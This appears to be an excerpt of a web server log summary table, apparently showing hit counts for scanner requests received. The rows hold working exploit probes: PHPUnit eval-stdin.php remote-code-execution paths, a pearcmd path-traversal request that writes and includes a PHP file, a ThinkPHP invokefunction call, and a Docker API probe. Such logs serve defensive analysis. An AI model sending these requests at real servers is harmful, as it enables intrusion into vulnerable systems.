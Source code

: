 | 154 |                     2 | GET /yii/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 155 |                     2 | GET /zend/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 156 |                     2 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 157 |                     2 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 158 |                     2 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 159 |                     2 | GET /panel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 160 |                     2 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 161 |                     2 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 162 |                     2 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |